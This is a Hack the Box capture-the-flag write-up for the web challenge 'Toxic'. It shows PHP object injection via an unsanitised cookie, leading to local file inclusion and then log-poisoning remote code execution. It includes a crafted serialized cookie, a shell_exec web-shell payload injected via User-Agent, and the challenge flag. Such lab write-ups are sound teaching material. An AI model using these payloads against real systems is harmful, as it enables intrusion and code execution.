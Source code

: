 # Writeup "Toxic"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                            </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/toxic              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-toxic-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                           </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                    </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-08-10                                              </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-08-11                                              </td></tr>
</table>

## Description

> Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

## Solution

We receive an IP and port to a server and a zip file containing the _PHP_ application deployed on the server. The application displays a web page about dart frogs; as mentioned in the challenge description, there is no user input on the page.

<p align="center">
   <img src="includes/toxic-01.png" />
</p>

Looking through the file `Dockerfile`, we see that the application lies in the `/www` directory and the flag lies in the root directory. Also, the bash script `entrypoint.sh` is called when the application is set up, so we take a look at this file, as well. In `entrypoint.sh`, we find the following lines:

``` bash
# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

This appends an underscore and five random characters to `flag`, so the new filename will look like e.g. `flag_TJ9ai` or `flag_xQszw`. This will make it harder to get to the flag, because we have to find out the correct file name before accessing the file.

Continuing our review of the source code, we find some dubious code in the file `index.php`:

``` php
if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

First, the code checks if there is a cookie set. If there is none, a new `PageModel` object is created. Then, the cookie is read and unserialized[^2] without any checks or sanitation of what is effectively a user input. This allows a _"PHP Object Injection"_ attack[^3][^4]. Let's take a look at the definition of the `PageModel` class:

``` php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

`__destruct` is a _"PHP magic method"_ which is called automatically when an object is destroyed[^1]. Since the object is unserialized in `index.php` without assigning it to a variable, this method is called immediately.

In this case, the `__destruct` method includes the file specified in the member variable `$file`. Again, this is done without any sanitation which allows the user to alter the cookie and therefore the file which is included by the website. This is called a _File Inclusion_ attack[^5].

However, we do not know the file name of the flag; therefore, this is not yet enough. We need a way to look through the file system and obtain the new flag file name. First, we try to use the vulnerability to perform a _Remote File Inclusion_ (RFI) attack. As a test, we create the following PHP file and host it using the command `python -m http.server`:

```php
<?php echo shell_exec("whoami"); ?>
```

This does not work, however. Apparently, only a _Local File Inclusion_ (LFI) is possible. A web search for _"php lfi rce"_ leads us to a page describing how to use a LFI to perform a _Remote Code Execution_ (RCE) by using a technique called _"Log Poisoning"_[^6]. In a nutshell, we have to perform the following steps:
1. Find a log file where we can influence the content;
2. inject our PHP code into the log file;
3. include the log file in the website using the LFI vulnerability.

From the Dockerfile we know that the web server runs NGINX so we do a web search for _"nginx log path"_. This tells us that the standard location for the access log file is `/var/log/nginx/access.log`. Using the following commands, we create and encode a custom object for the cookie:

``` php
$o = new PageModel;
$o->file = "/var/log/nginx/access.log";
$c = serialize($o);
$c = base64_encode($c);
print $c;

Output: "Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ=="
```

The cookie's value is replaced using the Firefox developer tools and the website shows the contents of the log file:

<p align="center">
   <img src="includes/toxic-02.png" />
</p>

Now we need a way of injecting our PHP code into the log file. Since we can see that the log file contains the `User-Agent` string of all received HTTP requests, we decide to use this field for the injection. As payload we choose the following line[^7]:

``` php
<?php echo shell_exec($_GET['cmd']); ?>
```

This will execute any command that is passed to the page via the GET parameter `cmd`. We replace the `User-Agent` string using the Firefox developer tools once more by right-clicking on the last GET request and choosing _"Edit and Resend"_:

<p align="center">
   <img src="includes/toxic-03.png" />
</p>

Success! By setting the `get` parameter, we can pass various shell commands to the server. First, let's find out the name of the flag file using the command `ls /`:

<p align="center">
   <img src="includes/toxic-04.png" />
</p>

So the file name is `flag_bHZeW`. Just one more step in order to get the flag itself using the command `cat /flag_bHZeW`:

<p align="center">
   <img src="includes/toxic-05.png" />
</p>

There we go!

```
HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}
```

### Sources

[^1]: https://www.php.net/manual/en/language.oop5.magic.php
[^2]: https://www.php.net/manual/de/function.unserialize.php
[^3]: https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection
[^4]: https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a
[^5]: https://www.webmaster-tipps.de/php-sicherheit-local-file-inclusion-und-remote-file-inclusion/
[^6]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1
[^7]: http://web.archive.org/web/20130809032648/http://chipmunkninja.com/Program-Execution-in-PHP%3A-exec-m@

